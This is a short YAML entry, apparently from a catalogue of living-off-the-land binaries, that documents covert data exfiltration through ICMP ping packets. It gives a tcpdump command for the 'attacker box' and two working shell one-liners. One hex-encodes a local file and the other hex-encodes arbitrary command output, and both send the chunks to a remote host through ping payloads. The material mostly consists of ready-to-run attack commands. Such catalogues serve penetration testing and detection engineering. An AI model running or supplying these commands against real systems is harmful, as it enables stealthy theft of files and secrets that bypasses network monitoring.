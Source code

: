 ```yaml
---
functions:
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  
        
        Send local file content over ICMP using hex-encoded payloads.
      code: |
        hex=$(hexdump -v -e '1/1 "%02x"' $LFILE); i=0; while [ $i -lt ${#hex} ];
        do chunk="${hex:$i:16}"; ping -c1 -p "$chunk" $RHOST; i=$((i+16)); done
    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        hex=$(eval "$CMD" | hexdump -v -e '1/1 "%02x"'); i=0; while [ $i -lt ${#hex} ];
        do chunk="${hex:$i:16}"; ping -c1 -p "$chunk" $RHOST; i=$((i+16)); done
---
```

